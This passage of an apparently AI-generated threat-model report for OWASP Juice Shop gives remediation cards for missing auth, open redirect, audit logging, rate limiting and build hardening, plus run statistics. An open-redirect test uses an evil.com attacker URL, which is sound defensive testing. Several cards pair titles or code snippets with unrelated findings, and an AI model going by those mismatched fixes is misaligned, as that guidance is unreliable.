1. In `server.ts` line 309, insert `security.isAuthorized()` immediately after `uploadToMemory.single('file')` so the chain becomes: `uploadToMemory.single('file'), security.isAuthorized(), ensureFileIsPassed, ...`.
2. Add an integration test asserting that an unauthenticated `POST /file-upload` returns HTTP 401.
3. Verify the other upload routes (profile image, memories) retain their own guards so no regression occurs.

```javascript
// server.ts ~line 309
app.post('/file-upload',
  uploadToMemory.single('file'),
  security.isAuthorized(),   // <-- add this
  ensureFileIsPassed,
  metrics.observeFileUploadMetricsMiddleware(),
  checkUploadSize,
  checkFileType,
  handleZipFileUpload,
  handleXmlUpload,
  handleYamlUpload
)
```

**Reference:** CWE-306

---

<a id="m-090"></a>
#### M-090 — Enforce object-level (ownership) authorization

**Addresses:**

- 🟠 [F-046](#f-046) — Attacker-Controlled UserId in Memory Upload (`routes/memory.ts:24`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/memory.ts:24`

**How:**

1. In `server.ts:628`, add `security.isAuthorized()` to the `GET /rest/memories` route chain.
2. In `routes/memory.ts:24`, change `MemoryModel.findAll({ include: [UserModel] })` to filter by the authenticated user's ID: `MemoryModel.findAll({ where: { UserId: req.body.UserId }, include: [UserModel] })`.
3. Add a middleware on the GET route that calls `security.appendUserId()` to populate `req.body.UserId` for the scoped query.

```javascript
// routes/memory.ts — getMemories with ownership scoping
export function getMemories () {
  return async (req: Request, res: Response, next: NextFunction) => {
    const memories = await MemoryModel.findAll({
      where: { UserId: (req as any).body.UserId },
      include: [UserModel]
    })
    res.status(200).json({ status: 'success', data: memories })
  }
}
```

**Reference:** CWE-639

---

<a id="m-104"></a>
#### M-104 — Data disclosure through cleartext transport

**Addresses:**

- 🟠 [F-060](#f-060) — Data disclosure (`challenges.yml:1381`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `data/static/challenges.yml:1381`

---

<a id="m-105"></a>
#### M-105 — Architecture review: validate Data disclosure through cleartext transport

**Addresses:**

- 🟠 [F-060](#f-060) — Data disclosure (`challenges.yml:1381`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `data/static/challenges.yml:1381`

**How:** This is an architectural / coverage-gap finding - the analyser inferred 'Data disclosure through cleartext transport' from architectural reasoning, not from a confirmed source-to-sink path. Schedule a focused review of express-backend to validate the assumption: read the relevant control implementation, sample 2–3 representative call paths, and decide whether to convert the finding into a concrete defect (with file:line evidence) or accept the residual risk. This single review card covers 1 clustered `finding(s)` under the same theme to avoid [§9](#9-abuse-cases) inflation.

---

### P3 — Next Quarter

<a id="m-091"></a>
#### M-091 — Pass JWT in Socket\.IO auth option and validate on the server at handshake time

**Addresses:**

- 🟡 [F-047](#f-047) — Unauthenticated Socket\.IO Connection (`socket-io.service.ts:21`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/Services/socket-io.service.ts:21`

**How:**

1. Update `socket-io.service.ts` to pass `auth: { token: localStorage.getItem('token') }` in the `io()` options object.
2. On the backend Socket\.IO server, add a `io.use()` middleware that verifies the JWT from `socket.handshake.auth.token` and attaches the user identity to the socket - reject connections with invalid or missing tokens for events that require authentication.
3. After migrating to cookie-based session storage (see angular-spa-006), update the Socket\.IO handshake to use the cookie-based session instead.

```javascript
// WRONG (current):
this._socket = io(window.location.origin, { path: ... })

// CORRECT:
this._socket = io(window.location.origin, {
  path: ...,
  auth: { token: localStorage.getItem('token') }
})
```

**Reference:** CWE-306

---

<a id="m-092"></a>
#### M-092 — Validate redirect targets against an allowlist

**Addresses:**

- 🟡 [F-048](#f-048) — Open Redirect (`lib/insecurity.ts:138`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `lib/insecurity.ts:138`

**How:**

1. Change `url.includes(allowedUrl)` to `url === allowedUrl` for exact-match semantics, or parse both URLs with the WHATWG `URL` API and compare `origin + pathname`.
2. Add a test asserting that `https://evil.com/?r=https://github.com/juice-shop/juice-shop` returns `406` from the redirect endpoint.

```javascript
// lib/insecurity.ts
export const isRedirectAllowed = (url: string) => {
  for (const allowedUrl of redirectAllowlist) {
    if (url === allowedUrl) return true
  }
  return false
}
```

**Reference:** CWE-601

---

<a id="m-093"></a>
#### M-093 — Add security audit logging

**Addresses:**

- 🟡 [F-049](#f-049) — Absent Audit Logging for B2B Order Submissions (`routes/b2bOrder.ts:17`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/b2bOrder.ts:17`

**How:**

1. In the `b2bOrder` handler, extract the JWT subject from `req.user` (populated by express-jwt) and emit a structured audit event including: `{ event: 'b2b_order', subject: req.user?.sub, cid: body.cid, orderLinesDataHash: crypto.createHash('sha256').update(orderLinesData).digest('hex'), ts: new Date().toISOString() }`.
2. Write to the existing `logs/audit.json` sink referenced in `server.ts:333` or use `logger.info()` from `lib/logger.ts`.
3. Log rejection events (invalid type, timeout, eval error) with the same structure and error classification.
4. Ensure the audit log is stored in an append-only or tamper-evident sink in production.

```typescript
// Log authn / authz outcomes with stable correlation ids.
logger.info({ event: 'auth.login.fail', userId, ip: req.ip, reqId })
logger.info({ event: 'authz.deny', userId, route: req.path, reqId })
```

**Verification:** A failed admin probe leaves an `authz.deny` line in the central log within 1 s.

**Reference:** CWE-778

---

<a id="m-094"></a>
#### M-094 — Add security audit logging

**Addresses:**

- 🟡 [F-050](#f-050) — No Audit Logging of File Upload Events (`routes/fileUpload.ts:75`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/fileUpload.ts:75`

**How:**

1. In `handleZipFileUpload`, `handleXmlUpload`, and `handleYamlUpload`, call `logger.info()` at entry with fields: `{ event: 'file_upload', actor: req.user?.id ?? 'anon', ip: req.socket.remoteAddress, filename: file.originalname, size: file.size, result: 'processing' }`.
2. On each handler's success path, log `result: 'accepted'`; on each error path, log `result: 'rejected'` with the error type.
3. Ensure the logger writes to a sink that is separate from application stdout (e.g. a dedicated audit log file or a SIEM-compatible stream).

```javascript
// routes/fileUpload.ts — add at entry of handleXmlUpload
logger.info({
  event: 'file_upload',
  type: 'xml',
  actor: (req as any).user?.id ?? 'anon',
  ip: req.socket.remoteAddress,
  filename: file?.originalname,
  size: file?.size
})
```

**Reference:** CWE-778

---

<a id="m-095"></a>
#### M-095 — Return generic error messages to clients

**Addresses:**

- 🟡 [F-051](#f-051) — Raw Error Propagation Leaks Stack Trace on Eval Failure (`routes/b2bOrder.ts:33`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/b2bOrder.ts:33`

**How:**

1. Replace `next(err)` in the non-timeout catch branch with a generic error response: `res.status(400).json({ error: 'Invalid order expression' })` and log the full error internally via `logger.error(err)`.
2. Ensure the Express error handler in `server.ts` is configured with `NODE_ENV=production` behavior that omits stack traces from HTTP responses.
3. Never expose `err.message` or `err.stack` in API responses for server-side eval failures.

**Reference:** CWE-209

---

<a id="m-096"></a>
#### M-096 — Sign and verify release artifacts

**Addresses:**

- 🟡 [F-052](#f-052) — Container images not signed no cosign or build-provenance attestation — :1

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/:1`

**How:** Add cosign signing step to release workflow; or use actions/attest-build-provenance

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

<a id="m-097"></a>
#### M-097 — Disable untrusted package install scripts

**Addresses:**

- 🟡 [F-053](#f-053) — Npm install does not use --ignore-scripts — Dockerfile:5

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `Dockerfile:5`

**How:** Use `npm ci --ignore-scripts` and audit required postinstalls separately

---

<a id="m-098"></a>
#### M-098 — Disable untrusted package install scripts

**Addresses:**

- 🟡 [F-054](#f-054) — On postinstall hook present and not audited (`package.json:88`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `package.json:88`

**How:** Remove postinstall if possible; else document why required and use --ignore-scripts in CI and audit the hook content

---

<a id="m-099"></a>
#### M-099 — Pin the container base image to an immutable digest

**Addresses:**

- 🟡 [F-055](#f-055) — Dependabot npm ecosystem not configured (.github/dependabot.yml:1)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/dependabot.yml:1`

**How:** Add npm ecosystem entry to .`github/dependabot.yml`

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-100"></a>
#### M-100 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟡 [F-056](#f-056) — Missing Client-Side Rate Limiting on OAuth and Login Flows (`login.component.ts:134`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `frontend/src/app/login/login.component.ts:134`

**How:**

1. Disable the login/OAuth button for 1-2 seconds after each click using Angular's form `disabled` binding to prevent rapid re-submission.
2. After 5 consecutive failed login attempts, display a CAPTCHA challenge or a locked-out message in the SPA.
3. Implement server-side rate limiting as the authoritative control (e.g. `express-rate-limit` at the `/api/user/login` route) - client-side controls are UX hints, not security boundaries.

**Reference:** CWE-770

---

<a id="m-101"></a>
#### M-101 — Add rate limiting and query result pagination to the search endpoint

**Addresses:**

- 🟡 [F-057](#f-057) — Unbounded Search Query Causing Full-Table Scan (`routes/search.ts:23`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/search.ts:23`

**How:**

1. Apply `express-rate-limit` with a per-IP limit (e.g. 30 requests per minute) on the `/rest/products/search` route.
2. Add a `LIMIT 50` clause to the search query and accept a `page` parameter for pagination.
3. Consider moving to a full-text index or a dedicated search index to replace the leading-wildcard LIKE pattern.

**Reference:** CWE-400

---

### P4 — Backlog

<a id="m-102"></a>
#### M-102 — Add a container healthcheck

**Addresses:**

- 🟢 [F-058](#f-058) — Missing HEALTHCHECK instruction — Dockerfile:1

**Priority:** P4 - Backlog · **Effort:** Medium · **File:** `Dockerfile:1`

**How:** Add HEALTHCHECK CMD `curl -f http://localhost:<port>/health`

---

<a id="m-103"></a>
#### M-103 — Pin the container base image to an immutable digest

**Addresses:**

- 🟢 [F-059](#f-059) — Renovate config absent automated dependency updates not file-detectable (`renovate.json:1`)

**Priority:** P4 - Backlog · **Effort:** Medium · **File:** `renovate.json:1`

**How:** Add `renovate.json` with a baseline preset (extends: ["config:base"]) OR confirm Renovate hosted-app is enabled at the repo / org level.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `(not recorded)` |
| Generated | 2026-06-12 20:53 UTC |
| Mode | full |
| Assessment depth | standard |
| Plugin version | 0.4.0-beta (analysis v2) |
| Orchestrator model | sonnet |
| Repository | `/home/mrohr/juice-shop` |
| Output directory | `/home/mrohr/juice-shop/docs/security` |
| Total analysis duration | 42m 54s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|------------------------|----------------------|--------|--------|----------|--------|
| 1 | Threat Analysis & Triage | appsec-threat-analyst | sonnet | 29m 09s | 224 | 488,858 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | sonnet | 9m 08s | 146 | 218,211 |
| 2 | Report Rendering | appsec-threat-renderer | sonnet | 2m 53s | 26 | 94,287 |
| 3 | QA Review | appsec-qa-reviewer | sonnet | 1m 43s | 15 | 42,600 |
| **Total** | - | - | - | **42m 54s** | **411** | **843,956** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 1 | Context Resolution -<br/>.threat-modeling-context.md ready | threat-analyst (sonnet-4-6) | 4m 49s |
| Phase 2 | Reconnaissance - recon-summary ready | recon-scanner (sonnet-4-6) | 4m 49s |
| Phase 3 | Architecture Modeling - 4 diagrams produced<br/>(2m54s) | threat-analyst (sonnet-4-6) | 2m 54s |
| Phase 4 | Attack Walkthroughs - 4 walkthroughs<br/>rendered (0m50s) | threat-analyst (sonnet-4-6) | 50s |
| Phase 5 | Asset Identification - 10 assets catalogued<br/>(2m25s) | threat-analyst (sonnet-4-6) | 2m 25s |
| Phase 6 | Attack Surface Mapping - 112 entry points<br/>(21 unauthenticated) (2m25s) | threat-analyst (sonnet-4-6) | 2m 25s |
| Phase 7 | Trust Boundary Analysis - 6 boundaries<br/>(2m25s) | threat-analyst (sonnet-4-6) | 2m 25s |
| Phase 8 | Security Controls - ✅ 1 ⚠️ 4 🔶 8 ❌ 16<br/>(3m30s) | threat-analyst (sonnet-4-6) | 3m 30s |
| Phase 9 | STRIDE Merge complete - 48 threats<br/>(Critical:11, High:26, Medium:9, Low:2) | Nx stride-analyzer (sonnet-4-6) | 169s |
| Phase 10 | Scan Synthesis - 2 sca-practice MF, 5<br/>known-bad-libs MF | threat-analyst (sonnet-4-6) | 28s |
| Phase 10b | Triage Validation - 64 flags (59 warnings, 5<br/>info) | appsec-triage-validator (sonnet-4-6) | 646s |
| Phase 11 | Substeps 1-3 complete<br/>(STAGE1_PHASE_LIMIT=10b) - yaml built, cache<br/>updated | threat-analyst (sonnet-4-6) | 199s |
| Phase 11 | [§7](#7-security-architecture) enrichment [secarch] - complete | threat-analyst (sonnet-4-6) | 6m 11s |
| Phase 11 | Finalization (parallel renderer) | threat-analyst (sonnet-4-6) | 7m 17s |
| Phase 9 | STRIDE Merge complete - 59 threats<br/>(Critical: see below, via 5 components) | Nx stride-analyzer (sonnet-4-6) | 2m21s |
| Phase 10 | Scan Synthesis complete | threat-analyst (sonnet-4-6) | 14s |
| Phase 10b | Triage Validation complete - 126 flags (121<br/>warnings, 0 info), sidecars written | appsec-triage-validator (sonnet-4-6) | 3m 39s |
| Phase 11 | Finalization Substeps 1-3 complete<br/>(STAGE1_PHASE_LIMIT=10b - Stage 2 handoff) | threat-analyst (sonnet-4-6) | 2m 55s |
| Phase 11 | Management summary [RENDER_ROLE=ms] | threat-analyst (sonnet-4-6) | 2m 08s |
| Phase 11 | [§7](#7-security-architecture) enrichment (secarch) - authored `security-architecture.md` | threat-analyst (sonnet-4-6) | 7m 12s |

---

<a id="appendix-composition-notes"></a>
## Appendix: Composition Notes

The composition pipeline emitted the soft warnings listed below. These do not block release (the contract still passed) but they flag content the renderer could not fully validate - typically NARRATIVE_PLACEHOLDER leakage from Stage-2 incomplete authoring or Mermaid syntax that downstream parsers may reject.

### Soft Warnings

| Section | Category | Detail |
|----------------------|-----------|----------------------|
| (unspecified) | `other` | `security-posture-attack-paths.json` is<br/>schema-invalid (FragmentError); falling back<br/>to deterministic derivation at render time |
| Global Secret-Mask Pass | `secret_mask` | secret-mask applied: pem_lone_marker -<br/>credential-shaped strings were redacted to <REDACTED><br/>placeholders |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2021, A03:2021, A07:2021

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2021, A04:2021, A05:2021, A10:2021

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2021

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2021, A03:2021

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2021

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A02:2021, A07:2021

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)